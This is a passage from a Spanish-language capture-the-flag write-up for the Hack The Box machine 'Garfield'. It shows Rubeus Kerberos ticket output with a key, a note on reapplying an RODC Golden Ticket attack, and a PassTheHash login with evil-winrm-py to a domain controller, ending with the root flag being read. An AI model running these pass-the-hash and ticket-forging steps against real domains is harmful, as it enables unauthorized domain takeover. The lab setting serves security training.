  ServiceRealm             :  GARFIELD.HTB
  UserName                 :  Administrator (NT_PRINCIPAL)
  UserRealm                :  GARFIELD.HTB
  StartTime                :  4/5/2026 9:56:58 PM
  EndTime                  :  4/6/2026 7:56:13 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  CCK9mCPbeOSThDasciM47nRVSd4O/33GexrRt5nuWTo=
  Password Hash            :  EE2...
```

> Si obtienes el error `KDC_ERR_TGT_REVOKED`, necesitarás volver a aplicar los 3 pasos anteriores para configurar el ataque `RODC Golden Ticket`.
{: .notice--danger}

### PassTheHash

La salida de `Rubeus` nos mostrará el hash `NT` del usuario `Administrator`, este debería ser el usuario `Administrator` que corresponde al Controlador de Dominio.

Podemos utilizarlo como prueba de autenticación para hacer la técnica `PassTheHash` y así conectarnos al DC

``` bash
evil-winrm-py -i DC01.garfield.htb -u Administrator -H 'EE2...'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.5.0

[*] Connecting to 'DC01.garfield.htb:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> whoami
garfield\administrator
```

Ya podremos ver la última flag ubicada en el escritorio del usuario `Administrator`

``` powershell
evil-winrm-py -i DC01.garfield.htb -u Administrator -H 'EE2...'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.5.0

[*] Connecting to 'DC01.garfield.htb:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
5a5...
```

Gracias por leer, a continuación te dejo la cita del día.

> Be your own hero, it's cheaper than a movie ticket.
> — Doug Horton
{: .notice--info}
